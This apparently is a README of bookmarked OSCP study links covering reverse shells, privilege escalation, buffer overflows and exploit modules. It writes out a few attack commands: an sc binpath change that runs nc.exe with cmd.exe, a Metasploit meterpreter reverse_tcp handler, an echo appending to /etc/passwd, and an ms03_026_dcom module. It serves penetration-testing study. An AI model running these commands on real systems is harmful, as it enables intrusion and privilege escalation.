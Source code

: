 # OSCP - Journey 
** This repo consists of important links (or URLs) which were bookmarked during my journey of OSCP Certification **

!! Note !!

** Most of the links are considered to be SPOLIERS :P !!!**
                                            

# Reverse and Bind Shell tutorials

https://null-byte.wonderhowto.com/how-to/create-reverse-shell-remotely-execute-root-commands-over-any-open-port-using-netcat-bash-0132658/

http://www.hackingtutorials.org/networking/hacking-netcat-part-2-bind-reverse-shells/

http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet (for getting PHP reverse shell) 

# Different Types of Shells (Like Php, bash, netcat ....)

https://highon.coffee/blog/reverse-shell-cheat-sheet/

# Privilege Escalation 

http://www.fuzzysecurity.com/tutorials/16.html

1. sc qc upnphost
2. sc config upnphost binpath= "C:\nc.exe -nv 127.0.0.1 9988 -e C:\WINDOWS\System32\cmd.exe"
3. sc config upnphost obj= ".\LocalSystem" password= ""
4. sc qc upnphost
5. net start upnphost
  
https://blog.g0tmi1k.com/2011/08/basic-linux-privilege-escalation/ 
 
# Buffer Overflow 

Q) What is buffer-overflow

https://www.youtube.com/watch?v=TsQufuT80uc

  # For Practicing
  1. Vanilla EIP >>
http://www.primalsecurity.net/0x0-exploit-tutorial-buffer-overflow-vanilla-eip-overwrite-2/

  2. SL Mail >>
https://www.youtube.com/watch?v=Pi51KlEulj4
 
# MD5 Decrypter 
https://hashkiller.co.uk/md5-decrypter.aspx

# For RPC Service 
https://null-byte.wonderhowto.com/how-to/hack-like-pro-exploit-and-gain-remote-access-pcs-running-windows-xp-0134709/

# Extra Toppings

https://pinboard.in/u:unfo/t:oscp

# LFI _ Practise 

1. Coldfusion >>

http://hatriot.github.io/blog/2014/04/02/lfi-to-stager-payload-in-coldfusion/

https://www.slideshare.net/chrisgates/coldfusion-for-penetration-testers

# Using Multihandler
msf>use exploit multi/handler
msf>set payload windows/meterpreter/reverse_tcp
msf>set lhost <local IP>
msf>set lport <local port>
msf> set ExitOnSession false
msf>exploit -j

# append users in /etc/passwd

echo "line:to:add" >> /etc/passwd

# MSF Payloads

https://netsec.ws/?p=331

http://security-geek.in/2016/09/07/msfvenom-cheat-sheet/

# Privilege Escalation
  1. Linux Kernel 2.6.22 < 3.9 --> Dirty Cow
  
https://www.exploit-db.com/exploits/40839/
https://www.youtube.com/watch?v=iyhbLeOzegM

# OpenFuck / NT SNT Samba Server / Trans2open

https://kongwenbin.wordpress.com/tag/openfuck/

# Phplite_admin 1.9.3

https://www.youtube.com/watch?v=G1i5oWblx9Q

# ManageEngine Multiple Products Authenticated File Upload

https://www.rapid7.com/db/modules/exploit/multi/http/manageengine_auth_upload

# ProFTPD 1.3.2rc3 - 1.3.3b Telnet IAC Buffer Overflow

https://www.rapid7.com/db/modules/exploit/linux/ftp/proftp_telnet_iac

# Oracle 9i XDB - HTTP PASS Overflow

https://www.exploit-db.com/exploits/16809/


To be Cont.......










  
  > use exploit/windows/dcerpc/ms03_026_dcom
  

